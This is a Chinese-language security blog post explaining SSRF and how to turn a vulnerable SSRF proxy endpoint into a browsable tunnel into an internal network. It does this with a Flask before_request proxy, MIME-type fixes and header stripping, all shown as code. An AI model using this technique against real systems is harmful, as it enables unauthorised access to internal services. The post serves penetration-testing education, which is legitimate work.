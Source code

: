 ```yaml
---
date: "2020-03-21T00:00:00Z"
description: SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务...
title: SSRF漏洞配合Flask的巧妙利用 - 内网漫游
url: /archivers/2020-03-21/2
---
```


## SSRF 服务器请求伪造

SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

### 常见的功能点

![2020-03-21-16-58-32](../../../static/images/960b6a34-4f5f-11ec-80ff-00d861bf4abb.png)

- Net-NTLM && NTLM Relay
- 获取服务器真实IP
- 端口扫描
- **网页代理**
- ......

### 网页代理 - HTTP Proxy

![2020-03-21-17-01-01](../../../static/images/964b0f36-4f5f-11ec-85c3-00d861bf4abb.png)

**客户端应用HTTP代理后，可通过代理服务器访问内网HTTP协议资源**

**而在SSRF场景，需要SSRF具备支持HTTP两大请求方式：GET、POST，且有响应Body**

```
POST /application/services/proxy/doPostAndGet HTTP/1.1
Host: app.domain.com
Connection: keep-alive
Content-Length: XX
Content-Type: application/json
Accept: */*
Referer: http://app.domain.com/application/portal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{
    "url":"http://domain.com/sso?login",
    "method":"post",
    "jsonBody":"{\"username\":\"123456\"}"
}
```


## Flask 框架

![2020-03-21-17-02-11](../../../static/images/9685f1a0-4f5f-11ec-b8a6-00d861bf4abb.png)


Flask是一个用Python编写的Web应用程序框架，它基于Werkzeug WSGI工具包和Jinja2模板引擎。

Flask也被称为“microframework” ，因为它使用简单的核心，用extension增加其他功能，它没有默认使用的数据库、窗体验证工具。

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello, World!'
```

![2020-03-21-17-02-36](../../../static/images/96ce8dca-4f5f-11ec-826f-00d861bf4abb.png)

```
$ export FLASK_APP=hello.py
$ python -m flask run
 * Running on http://127.0.0.1:5000/
```
### Flask 框架的请求流程

1. befor_first_request
2. befor_request
3. after_request
4. teardown_request → 异常处理
5. after_this_request

![2020-03-21-17-03-02](../../../static/images/97b9303c-4f5f-11ec-a5f5-00d861bf4abb.png)

```python
from flask import Flask, request, Response
import requests
app = Flask(__name__)

@app.before_request
def _proxy(*args, **kwargs):
    resp = requests.request(
        method=request.method,
        url=request.url,
        headers={key: value for (key, value) in request.headers},
        data=request.get_data(),
        cookies=request.cookies,
        allow_redirects=False)

    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response
if __name__ == "__main__":
    app.run(debug=True)
```

Flask的默认端口是：5000

![2020-03-21-17-03-33](../../../static/images/97f79534-4f5f-11ec-ac7e-00d861bf4abb.png)

插件名称：SwitchyOmega

![2020-03-21-17-03-48](../../../static/images/982fb572-4f5f-11ec-b357-00d861bf4abb.png)

通过把代理服务器设置为5000（Flask默认）端口，浏览器的所有请求都会经过这五个装饰器，在每个装饰器中，可以写自己的检测规则。由于许多的SSRF漏洞接口返回的Content-Type始终都是一样的，因此会产生图片、JS等静态文件无法加载，下面我们将解决这个问题。

### 解决文件类型问题

遇到这个问题，首先分析浏览器为什么无法加载。

1. SSRF漏洞接口返回的Content-Type是Json，那么我们还需要将Json转化为一个字典，把DATA取出。
2. 根据SSRF漏洞请求的URI来定义MIME Type，Response返回对应的MIME Type即可解决

```python
def get_filetype(url):
    content_type = 'text/html'
    response_mimetype = {
        '.png':'image/png',
        '.js':'application/javascript',
        '.jpg':'image/jpeg',
        '.gif': 'image/gif',
        '.jpeg':'image/jpeg',
        '.ico':'image/x-icon',
        '.css':'text/css',
        '.svg':'image/svg+xml',
    }
    disassembled = urlparse(url)
    filename, file_ext = splitext(basename(disassembled.path))
    content_type = response_mimetype.get(file_ext, 'text/html')
    return content_type
```

这里定义了一些常见的MIME类型，通过截取URI的文件扩展名来找到对应的MIME类型，默认找不到就以HTML返回，不知道还有没有更赞的办法，如果有欢迎分享。

### Content-Encoding问题

Accept-Encoding 和Content-Encoding是HTTP中用来对采用哪种编码格式传输正文进行协定的一对头部字段。

通过SSRF漏洞接口返回的通常可能是附带Content-Encoding头的响应，但与SSRF目标返回的不匹配，会造成网页展示不完全的情况。（本质上是接口取回的内容已经是解码后的，但接口本身可能又有编码头）

```python
excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
        headers = [(name, value) for (name, value) in resp.raw.headers.items()
                   if name.lower() not in excluded_headers]
```

这里的解决方式是剔除编码头 Content-Encoding。